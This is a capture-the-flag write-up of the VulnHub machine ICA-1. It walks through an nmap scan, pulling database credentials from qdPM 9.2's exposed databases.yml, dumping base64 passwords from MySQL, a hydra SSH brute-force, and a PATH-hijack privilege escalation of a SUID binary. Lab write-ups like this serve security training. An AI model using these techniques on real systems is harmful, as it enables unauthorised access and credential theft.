 ```yaml
---
layout: post
title: ICA-1
categories: VulnHub Machines
permalink: /vulnhub/ica-1
---
```


Machine: [https://www.vulnhub.com/entry/ica-1,748/](https://www.vulnhub.com/entry/ica-1,748/)
Machine Author: [onurturali](https://www.vulnhub.com/author/onurturali,820/)

## Nmap

```bash
Starting Nmap 7.94SVN ( https://nmap.org ) at 2025-01-09 07:55 UTC
mass_dns: warning: Unable to determine any DNS servers. Reverse DNS is disabled. Try using --system-dns or specify valid servers with --dns-servers
Nmap scan report for 192.168.56.136
Host is up (0.00065s latency).
Not shown: 65531 closed tcp ports (reset)
PORT      STATE SERVICE VERSION
22/tcp    open  ssh     OpenSSH 8.4p1 Debian 5 (protocol 2.0)
| ssh-hostkey: 
|   3072 0e:77:d9:cb:f8:05:41:b9:e4:45:71:c1:01:ac:da:93 (RSA)
|   256 40:51:93:4b:f8:37:85:fd:a5:f4:d7:27:41:6c:a0:a5 (ECDSA)
|_  256 09:85:60:c5:35:c1:4d:83:76:93:fb:c7:f0:cd:7b:8e (ED25519)
80/tcp    open  http    Apache httpd 2.4.48 ((Debian))
|_http-server-header: Apache/2.4.48 (Debian)
|_http-title: qdPM | Login
3306/tcp  open  mysql   MySQL 8.0.26
| ssl-cert: Subject: commonName=MySQL_Server_8.0.26_Auto_Generated_Server_Certificate
| Not valid before: 2021-09-25T10:47:29
|_Not valid after:  2031-09-23T10:47:29
|_ssl-date: TLS randomness does not represent time
| mysql-info: 
|   Protocol: 10
|   Version: 8.0.26
|   Thread ID: 41
|   Capabilities flags: 65535
|   Some Capabilities: Support41Auth, SwitchToSSLAfterHandshake, DontAllowDatabaseTableColumn, LongPassword, LongColumnFlag, Speaks41ProtocolOld, SupportsTransactions, IgnoreSigpipes, ODBCClient, InteractiveClient, IgnoreSpaceBeforeParenthesis, FoundRows, SupportsLoadDataLocal, ConnectWithDatabase, SupportsCompression, Speaks41ProtocolNew, SupportsAuthPlugins, SupportsMultipleStatments, SupportsMultipleResults
|   Status: Autocommit
|   Salt: /(%Yj"\x16PRA]*\x05\x1ERt     lX7
|_  Auth Plugin Name: caching_sha2_password
33060/tcp open  mysqlx?
| fingerprint-strings: 
|   DNSStatusRequestTCP, LDAPSearchReq, NotesRPC, SSLSessionReq, TLSSessionReq, X11Probe, afp: 
|     Invalid message"
|     HY000
|   LDAPBindReq: 
|     *Parse error unserializing protobuf message"
|     HY000
|   oracle-tns: 
|     Invalid message-frame."
|_    HY000
MAC Address: 08:00:27:49:80:BC (Oracle VirtualBox virtual NIC)
Device type: general purpose
Running: Linux 4.X|5.X
OS CPE: cpe:/o:linux:linux_kernel:4 cpe:/o:linux:linux_kernel:5
OS details: Linux 4.15 - 5.8
Network Distance: 1 hop
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

TRACEROUTE
HOP RTT     ADDRESS
1   0.65 ms 192.168.56.136

OS and Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 19.00 seconds

```

We can see that there is ssh, mysql and http running on the server. Let’s go ahead and check the website since we’ll need credentials for mysql and ssh.

![1](https://github.com/user-attachments/assets/0ad5d22a-835d-43a0-9d81-71b5e8ebf0b5)


We come across a login page for qdPM. There aren’t any default credentials for this service. So let’s look for any exploits for the qdPM 9.2 version.

```bash
# Exploit Title: qdPM 9.2 - DB Connection String and Password Exposure (Unauthenticated)
# Date: 03/08/2021
# Exploit Author: Leon Trappett (thepcn3rd)
# Vendor Homepage: https://qdpm.net/
# Software Link: https://sourceforge.net/projects/qdpm/files/latest/download
# Version: 9.2
# Tested on: Ubuntu 20.04 Apache2 Server running PHP 7.4

The password and connection string for the database are stored in a yml file. To access the yml file you can go to http://<website>/core/config/databases.yml file and download.
```

We manage to find the above exploit. Let’s go ahead and download the databases.yml file

```bash
all:
  doctrine:
    class: sfDoctrineDatabase
    param:
      dsn: 'mysql:dbname=qdpm;host=localhost'
      profiler: false
      username: qdpmadmin
      password: "<?php echo urlencode('UcVQCMQk2STVeS6J') ; ?>"
      attributes:
        quote_identifier: true  
  
```

We seem to have found credentials for the mysql service

qdpmadmin:UcVQCMQk2STVeS6J

Let’s log on to the mysql service and perform some enumeration there.

```bash
MySQL [(none)]> show databases;
+--------------------+
| Database           |
+--------------------+
| information_schema |
| mysql              |
| performance_schema |
| qdpm               |
| staff              |
| sys                |
+--------------------+
6 rows in set (0.004 sec)

MySQL [(none)]> use staff
Reading table information for completion of table and column names
You can turn off this feature to get a quicker startup with -A

Database changed
MySQL [staff]> show tables;
+-----------------+
| Tables_in_staff |
+-----------------+
| department      |
| login           |
| user            |
+-----------------+
3 rows in set (0.001 sec)
MySQL [staff]> select * from user;
+------+---------------+--------+---------------------------+
| id   | department_id | name   | role                      |
+------+---------------+--------+---------------------------+
|    1 |             1 | Smith  | Cyber Security Specialist |
|    2 |             2 | Lucas  | Computer Engineer         |
|    3 |             1 | Travis | Intelligence Specialist   |
|    4 |             1 | Dexter | Cyber Security Analyst    |
|    5 |             2 | Meyer  | Genetic Engineer          |
+------+---------------+--------+---------------------------+
5 rows in set (0.001 sec)
MySQL [staff]> select * from login order by user_id;
+------+---------+--------------------------+
| id   | user_id | password                 |
+------+---------+--------------------------+
|    3 |       1 | WDdNUWtQM1cyOWZld0hkQw== |
|    1 |       2 | c3VSSkFkR3dMcDhkeTNyRg== |
|    4 |       3 | REpjZVZ5OThXMjhZN3dMZw== |
|    2 |       4 | N1p3VjRxdGc0MmNtVVhHWA== |
|    5 |       5 | Y3FObkJXQ0J5UzJEdUpTeQ== |
+------+---------+--------------------------+
5 rows in set (0.001 sec)
```

We can see some Users and Passwords encoded in base64. We can’t seem to read any file using the load_file() function. So it seems we will have to create a wordlist of users and passwords based on what we have above.

```bash
hydra -L user.txt -P pass.txt 192.168.56.136 ssh -t 4
Hydra v9.5 (c) 2023 by van Hauser/THC & David Maciejak - Please do not use in military or secret service organizations, or for illegal purposes (this is non-binding, these *** ignore laws and ethics anyway).

Hydra (https://github.com/vanhauser-thc/thc-hydra) starting at 2025-01-09 08:37:31
[DATA] max 4 tasks per 1 server, overall 4 tasks, 25 login tries (l:5/p:5), ~7 tries per task
[DATA] attacking ssh://192.168.56.136:22/
[22][ssh] host: 192.168.56.136   login: travis   password: DJceVy98W28Y7wLg
[22][ssh] host: 192.168.56.136   login: dexter   password: 7ZwV4qtg42cmUXGX
1 of 1 target successfully completed, 2 valid passwords found
Hydra (https://github.com/vanhauser-thc/thc-hydra) finished at 2025-01-09 08:37:48

```

We are able to find two users. Let’s ssh into the server using one of them.

![2](https://github.com/user-attachments/assets/396fdf5d-38e6-4ae4-bb08-1d282ae97a2b)


We are able to get the user.txt from the travis user. Let’s also go ahead and login using dexter to see what else is there.

![3](https://github.com/user-attachments/assets/6a144677-95db-4bd9-99b5-6c19d9f79e05)


There is this note there. Let’s enumerate the system and see what we can find.

![4](https://github.com/user-attachments/assets/4bd76178-6e06-43bf-b553-b9e2b79b0988)


We are able to find a binary with the suid bit set on. Let’s analyze this executable on our machine to see what it does.

```bash
ltrace ./get_access 
setuid(0)                                                                                                                                         = -1
setgid(0)                                                                                                                                         = -1
system("cat /root/system.info"cat: /root/system.info: Permission denied
 <no return ...>
--- SIGCHLD (Child exited) ---
<... system resumed> )                                                                                                                            = 256
socket(2, 1, 0)                                                                                                                                   = 3
puts("All services are disabled. Acces"...All services are disabled. Accessing to the system is allowed only within working hours.

)                                                                                                       = 90
+++ exited (status 0) +++

```

It seem that the binary is calling the cat command to print a file. Since it is calling cat without using the absolute path I think we can do a path export attack on it.

![5](https://github.com/user-attachments/assets/e8b5c106-24c6-42e4-9fc5-723db6c71fae)


Sure enough we do get root.

![6](https://github.com/user-attachments/assets/f88af7fc-721b-4cb7-b7bc-9d5b44725ac9)
